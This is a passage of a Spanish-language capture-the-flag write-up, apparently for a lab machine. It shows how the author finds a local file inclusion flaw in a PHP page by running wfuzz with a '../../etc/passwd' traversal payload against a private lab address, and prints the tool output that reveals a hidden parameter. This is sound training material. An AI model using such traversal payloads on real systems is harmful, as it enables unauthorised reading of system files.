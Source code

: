 Si vemos el código fuente, parece que no va a ningún lado la data que enviemos:

<p align="center">
<img src="/assets/images/THL-writeup-shined/Captura7.png">
</p>

Esto es bastante extraño, por lo que es posible que aquí exista una vulnerabilidad.

Recordemos que **PHP** trabaja de forma dinámica, es decir, **PHP** permite la inclusión dinámica de archivos con distintas funciones como `include()`, `require()`, etc.

Esto permite que la mayoría (por no decir todo) de **archivos PHP** sean vulnerables a **LFI**.

El problema aquí, es que no tenemos un parámetro que podemos usar para aplicar el **LFI**, pues no sabemos si este archivo ocupa uno.

Así que vamos a aplicar **Fuzzing** para buscar si existe un parámetro de este archivo, pero para encontrarlo, debe existir un resultado válido que haya permitido el **LFI**, por lo que lo agregamos en el **Fuzzing**:
```bash
wfuzz -c --hc=404 --hh=1845 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.80/access.php?FUZZ=../../../../../../etc/passwd
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.80/access.php?FUZZ=../../../../../../etc/passwd
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000003962:   200        88 L     164 W      3164 Ch     "inet"                                                                                                                       

Total time: 350.4376
Processed Requests: 220545
Filtered Requests: 220544
Requests/sec.: 629.3416
```
Ahí está, tenemos el parámetro.
